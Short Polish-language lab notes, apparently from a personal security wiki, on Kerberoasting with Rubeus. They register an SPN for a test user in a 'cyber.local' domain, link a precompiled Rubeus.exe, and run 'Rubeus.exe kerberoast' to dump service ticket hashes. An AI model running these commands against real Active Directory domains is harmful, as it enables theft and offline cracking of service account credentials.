

---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---

# Rubeus

<div data-full-width="true">

<figure><figcaption></figcaption></figure>

</div>

**Windows Server**

stworzenie jakiejkolwiek usługi sieciowej SPN = Service Principal Names dla użytkownika bob&#x20;

```
.\setspn.exe -s http/cyber.local:80 bob
```

podgląd opisu tej usługi

```
.\setspn.exe -T cyber.local -Q */*
```

**Win**

```
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe
```

uruchomienie i przechwycenie ticketa

```
.\Rubeus.exe kerberoast /outfile:rubeus_tgs_hash
```
